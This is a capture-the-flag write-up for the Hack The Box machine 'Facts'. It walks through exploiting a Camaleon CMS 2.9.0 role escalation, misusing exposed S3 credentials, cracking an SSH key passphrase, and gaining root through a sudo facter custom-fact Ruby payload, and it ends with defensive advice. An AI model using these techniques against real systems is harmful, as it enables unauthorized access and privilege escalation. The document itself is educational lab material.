# Hack The Box - Facts Writeup

**Machine:** Facts  
**Platform:** Hack The Box  
**Difficulty:** Easy  
**Operating System:** Linux  
**Target IP:** `10.129.29.85`  
**Domain:** `facts.htb`  
**Primary Attack Path:** Camaleon CMS authenticated privilege escalation -> S3 credential exposure -> SSH key recovery -> local sudo misconfiguration in `facter`

---

## Executive Summary

The machine **Facts** exposed a small external attack surface consisting of SSH and an HTTP web application. Initial web enumeration revealed a Camaleon CMS deployment at `facts.htb`, including an accessible administrative login interface. After registering a low-privileged account, the CMS version was identified as **Camaleon CMS 2.9.0**.

The initial access path relied on authenticated weaknesses in Camaleon CMS. A low-privileged account was escalated to an administrative CMS role through a mass-assignment style profile/password update issue. Once administrative access was obtained, the site settings exposed S3-compatible storage credentials and an internal object storage endpoint. Those credentials were used to enumerate the storage backend and retrieve a protected SSH private key.

The SSH private key was encrypted, so it was converted to a John the Ripper-compatible hash and cracked with a wordlist. The recovered passphrase allowed SSH access as the Linux user `trivia`. From there, local enumeration showed access to `william`'s user flag and a sudo permission allowing `trivia` to run `/usr/bin/facter` as root. Because `facter` can load custom Ruby facts from a user-controlled directory, running it with sudo enabled Ruby code execution as root, resulting in a root shell.

High-level chain:

```text
Recon -> Web Enumeration -> Camaleon CMS 2.9.0
-> Authenticated CMS privilege escalation
-> S3 settings disclosure
-> Object storage enumeration
-> Encrypted SSH key recovery
-> SSH as trivia
-> Read user.txt from william
-> sudo facter custom Ruby fact
-> root shell
```



---

## Enumeration

### Port Scanning

The first step was to identify exposed services on the target. A standard Nmap scan showed that only SSH and HTTP were open:

```bash
sudo nmap -sS -sV -sC --reason -oN initial.txt 10.129.29.85
```

Observed services:

| Port | Service | Version / Notes |
|---:|---|---|
| 22/tcp | SSH | OpenSSH 9.9p1 Ubuntu |
| 80/tcp | HTTP | nginx 1.26.3, redirects to `http://facts.htb/` |

The HTTP service redirected by hostname, so the local hosts file was updated:

```bash
echo "10.129.29.85 facts.htb" | sudo tee -a /etc/hosts
```



### Web Discovery

After resolving `facts.htb`, the site presented a trivia-themed web application. Directory enumeration discovered several routes, with `/admin` redirecting to the CMS login panel:

```bash
gobuster dir \
  -u http://facts.htb/ \
  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
  -x php,txt,html,js,json,bak \
  -t 20 \
  -o gobuster-common.txt
```

Important discovery:

```text
/admin      -> http://facts.htb/admin/login
```



### CMS Fingerprinting

The admin panel revealed the application as **Camaleon CMS 2.9.0**. The version was visible in the CMS interface footer after login.






At this point, the machine moved from generic web enumeration into authenticated CMS testing. A normal low-privileged user account could be created and used to log in to the CMS dashboard with a `client` role.

---

## Initial Access

### Vulnerability Context

Two Camaleon CMS issues were relevant during analysis:

1. **Authenticated privilege escalation via mass assignment**  
   The CMS user update flow accepted sensitive fields that should not have been user-controllable. In particular, the profile/password update endpoint accepted a role parameter, allowing a low-privileged user to change their own CMS role.

2. **Authenticated path traversal in the AWS S3 uploader flow**  
   Camaleon CMS versions in the affected range contained a path traversal issue in the `download_private_file` functionality when the AWS S3 uploader backend was used. This allowed authenticated users to request arbitrary files through traversal sequences in the `file` parameter.

In this machine, the practical exploitation path used an authenticated CMS privilege escalation script to become an admin user, then extracted the configured S3 storage values from the CMS settings page.

### CMS Role Escalation

The provided exploit script performed the following workflow:

1. Start an HTTP session.
2. Fetch `/admin/login`.
3. Extract the Rails `authenticity_token`.
4. Submit valid low-privileged CMS credentials.
5. Visit `/admin/profile/edit`.
6. Extract the user ID and current role.
7. Send a crafted update request to:

```text
/admin/users/<USER_ID>/updated_ajax
```

8. Include the sensitive role field:

```text
password[role]=admin
```

9. Verify that the current user role changed from `client` to `admin`.
10. Optionally extract S3 configuration from `/admin/settings/site`.
11. Revert the user role back to `client` for cleanup.

Example usage with placeholders:

```bash
python3 exploit.py \
  -u http://facts.htb \
  -U '<CMS_USERNAME>' \
  -P '<CMS_PASSWORD>' \
  -e \
  -r
```

The `-e` flag extracted S3-related configuration, and the `-r` flag reverted the CMS role after extraction.



### Why This Worked

The core issue was broken authorization at the object update layer. A regular user should only be allowed to change safe fields such as their password. Instead, the update mechanism accepted an additional role field from the client-controlled request body.

A secure implementation should explicitly allow only expected profile/password fields. In this case, the backend accepted too much input from the request and allowed a low-privileged user to modify a privileged attribute.

Conceptually:

```text
Expected safe fields:
- password[password]
- password[password_confirmation]

Unsafe field accepted:
- password[role]=admin
```

This is a classic example of mass assignment: client-supplied parameters are trusted too broadly and applied to server-side user objects without strict field-level authorization.

### S3 Credential Exposure

After CMS admin access was obtained, the site settings page exposed S3-compatible storage configuration values:

```text
S3 Access Key: [REDACTED]
S3 Secret Key: [REDACTED]
S3 Endpoint:   [REDACTED]
```



The AWS CLI was configured with a dedicated profile:

```bash
aws configure --profile facts
```

The recovered values were then used against the lab's S3-compatible endpoint:

```bash
aws --profile facts --endpoint-url http://<S3_ENDPOINT> s3 ls
aws --profile facts --endpoint-url http://<S3_ENDPOINT> s3 ls s3://<BUCKET_NAME>
aws --profile facts --endpoint-url http://<S3_ENDPOINT> s3 cp s3://<BUCKET_NAME>/<OBJECT> ./<OBJECT>
```

The object storage contained an encrypted SSH private key. It was downloaded locally for offline analysis.

---

## SSH Key Cracking

The private key required a passphrase, so it was converted into a John the Ripper-compatible format:

```bash
ssh2john id_rsa > id.hash
```

Then John the Ripper was used with `rockyou.txt`:

```bash
john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt id.hash
```

Recovered passphrase:

```text
dragonballz
```



With the passphrase recovered, the SSH key permissions were corrected and SSH access was established as `trivia`:

```bash
chmod 600 id_rsa
ssh -i id_rsa trivia@facts.htb
```

This produced the initial Linux foothold.

---

## Lateral Movement

After logging in as `trivia`, local enumeration confirmed the current identity and home directory:

```bash
whoami
pwd
ls -la
```

The machine contained at least two non-root users:

```text
trivia
william
```

The `william` home directory was accessible enough to retrieve the user flag:

```bash
cd /home/william
ls -la
cat user.txt
```

The flag value is intentionally omitted from this public writeup.



This stage demonstrates an important lateral movement lesson: even without fully switching users, weak file permissions or group relationships may expose another user's sensitive files.

---

## Privilege Escalation

### Sudo Enumeration

The next step was to inspect sudo privileges for the `trivia` user:

```bash
sudo -l
```

The key finding was permission to run `facter` as root:

```text
/usr/bin/facter
```



### Deep Dive: Why the Facter Exploit Works

`facter` is a system inventory tool commonly used with Puppet. It collects system facts such as hostname, operating system, interfaces, uptime, virtualization type, and other host metadata.

A powerful feature of `facter` is support for **custom facts**. Custom facts are user-defined Ruby files that Facter can load from a specified directory. The relevant option is:

```bash
facter --custom-dir <DIRECTORY>
```

When this command is run normally as a low-privileged user, a malicious custom fact only executes with that user's permissions. The problem on this machine was the sudo rule: `trivia` could run `facter` as root.

That changes the trust boundary:

```text
User-controlled Ruby file
        +
sudo-executed facter process
        =
Ruby code execution as root
```

The attacker-controlled Ruby file was placed in a writable directory, for example `/home/trivia/kopi_hitam.rb`:

```ruby
Facter.add(:kopi_hitam) do
  setcode do
    exec "/bin/bash -p"
  end
end
```

Then `facter` was executed with sudo while pointing to the custom directory:

```bash
sudo facter --custom-dir /home/trivia kopi_hitam
```

Because Facter was running under sudo, it loaded and evaluated the custom Ruby fact with root privileges. The Ruby `exec` call replaced the Facter process with `/bin/bash -p`.

The `-p` flag is important because it tells Bash to preserve the effective UID instead of dropping privileges. Since the effective UID came from the sudo-run process, the resulting shell remained privileged.

Successful result:

```bash
whoami
# root
```



### Root Flag

After obtaining a root shell, the root flag was read from `/root/root.txt`:

```bash
cd /root
cat root.txt
```

The flag value is omitted from this public writeup.

---

## Defensive Insight

### 1. Enforce Field-Level Authorization

The CMS privilege escalation occurred because sensitive user attributes were accepted from a client-controlled request. Applications should never trust request parameters for authorization-sensitive fields such as `role`, `is_admin`, `permissions`, or `group_id`.

Recommended controls:

- Use strict parameter allowlists.
- Do not use broad parameter permitting for user update actions.
- Separate password update logic from role-management logic.
- Require server-side authorization checks before role changes.

### 2. Protect Secrets with Proper Secret Management

The S3 access and secret keys were accessible through the CMS settings after role escalation. Administrative settings often become high-value targets after web compromise.

Recommended controls:

- Store cloud credentials in a dedicated secret manager.
- Avoid exposing raw secrets in web UI fields after initial save.
- Use short-lived credentials where possible.
- Rotate credentials after suspected exposure.
- Apply least-privilege IAM policies to storage keys.

### 3. Harden Object Storage Access

The object storage contained an SSH private key, which created a direct bridge from web compromise to host access.

Recommended controls:

- Do not store SSH private keys in application buckets.
- Separate application media storage from administrative backup storage.
